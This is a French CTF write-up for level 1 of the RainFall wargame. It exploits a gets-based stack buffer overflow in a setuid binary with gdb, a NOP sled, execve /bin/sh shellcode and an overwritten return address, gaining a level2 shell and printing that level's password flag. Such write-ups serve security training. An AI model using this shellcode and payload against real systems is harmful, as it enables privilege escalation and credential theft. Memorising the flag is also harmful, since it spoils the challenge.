 # Level 1

<!-- ```
level0@RainFall:~$ su level1
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
``` -->

![connexion level2](./1.png)

La connexion au level 2 nous informe que l'executable dans le repertoire permets l'execution de programmes sur la pile et que les adresses d'alocations de mémoires seront constante entre les essais.


```
level1@RainFall:~$ ls -la level1
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Les fonctions executées dans le programme le seront avec les droits du level2 (s).

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

Le programme demande une entrée utilisateur avec gets.
Ligne 6, une allocation de 80 octets (0x50) (alignement de 16 octets) est demandée donc un buffer de 76 + padding de 4.

Comme la fonction gets ne fait aucunes vérifications de tailles de chaines de caracteres, nous concluons qu'une faille par buffer overflow est possible.

La technique utilisée est d'inclure dans le buffer un shellcode qui ouvre un shell, et comme le programme execute avec les droits du level2, nous seront dans un shell avec l'id de celui-ci.

### Fonctionnement de la faille

  Avant l'appel d'une fonction, le pointeur de fonction mere est sauvegardé afin de retourner a celle-ci a la fin de la fonction fille. Ce pointeur est sauvegardé au dessus de la pile.
  Le but de l'exploit est d'écrire plus que le buffer alloué, afin d'écraser la valeur du pointeur de la fonction mère, et ici pointer vers le buffer, dans le but d'executer notre shellcode.

### Les étapes :
- Trouver l'adresse du buffer.
- tester des longueurs de buffer dans gdb pour vérifier l'écrasement du pointeur de retour.
- Executer le binaire en redirigeant stdin pour pas que le programme termine.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) b *0x08048490
Breakpoint 1 at 0x8048490
(gdb) b *0x08048495
Breakpoint 2 at 0x8048495
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) x/xw $esp
0xbffff6e0:	0xbffff6f0
(gdb) x/20xw $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x080484a0	0x0804978c	0x00000001	0x08048321
0xbffff700:	0xb7fd13e4	0x00080000	0x0804978c	0x080484c1
0xbffff710:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff720:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048495 in main ()
(gdb) x/20xw $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Le buffer commence a 0xbffff6f0 (0x41414141 = "AAAA").

Nous allons utiliser ce shellcode :
```
"\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf4\xf6\xff\xbf"
```
"\x90"*30  : NOP sled, instructions qui ne fait rien et passe a l'instruction suivante. cela permet de faire une sorte de rampe glissante vers le shellcode important, et d'augmenter la tolérence a l'emplacement de l'adresse de retour.

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" : shellcode responsable de l'appel a /bin/sh

"A"*(75-30-23) : remplissage pour atteindre l'emplacement de l'adresse de retour de la fonction

"\xf0\xf6\xff\xbf" : adresse qui pointe vers le debut du buffer où les nop sled sont.


75 est déterminé par les essais d'alignements de l'adresse de retour.
30 est la taille des nop sled
23 est la taille du shellcode dash


```
(gdb) run <<< $(python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level1/level1 <<< $(python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"')

Breakpoint 1, 0x08048490 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048495 in main ()
(gdb) c
Continuing.
process 5290 is executing new program: /bin/dash
[Inferior 1 (process 5290) exited normally]
```

Il suffit désormais d'executer hors gdb et dans une commande qui laisse ouvert l'entrée standart pour pas que le programme termine.

```
level1@RainFall:~$ python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | /home/user/level1/level1
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```